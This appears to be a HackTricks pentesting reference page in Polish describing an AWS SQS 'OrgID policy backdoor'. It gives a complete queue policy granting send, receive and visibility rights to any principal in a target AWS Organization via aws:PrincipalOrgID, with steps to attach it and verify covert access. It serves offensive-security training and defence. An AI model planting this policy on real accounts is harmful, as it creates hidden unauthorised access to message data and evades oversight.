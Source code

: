 # AWS - SQS OrgID Policy Backdoor

{{#include ../../../../banners/hacktricks-training.md}}

Wykorzystaj politykę zasobu kolejki SQS, aby cicho przyznać uprawnienia Send, Receive i ChangeMessageVisibility dowolnemu principalowi należącemu do docelowej AWS Organization, używając warunku aws:PrincipalOrgID. Tworzy to ukrytą ścieżkę ograniczoną do organizacji (org-scoped), która często omija zabezpieczenia sprawdzające tylko jawne ARNy kont lub ról albo star principals.

### Backdoor policy (dołącz do polityki kolejki SQS)
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OrgScopedBackdoor",
"Effect": "Allow",
"Principal": "*",
"Action": [
"sqs:ReceiveMessage",
"sqs:SendMessage",
"sqs:ChangeMessageVisibility",
"sqs:GetQueueAttributes"
],
"Resource": "arn:aws:sqs:REGION:ACCOUNT_ID:QUEUE_NAME",
"Condition": {
"StringEquals": { "aws:PrincipalOrgID": "o-xxxxxxxxxx" }
}
}
]
}
```
### Kroki
- Uzyskaj Organization ID za pomocą AWS Organizations API.
- Pobierz ARN kolejki SQS i ustaw queue policy tej kolejki, zawierającą powyższe statement.
- Z dowolnego principal należącego do tej Organization wyślij i odbierz wiadomość z kolejki, aby zweryfikować dostęp.

### Wpływ
- Ukryty dostęp w skali całej organizacji do odczytu i zapisu wiadomości SQS z dowolnego konta w określonej AWS Organization.

{{#include ../../../../banners/hacktricks-training.md}}
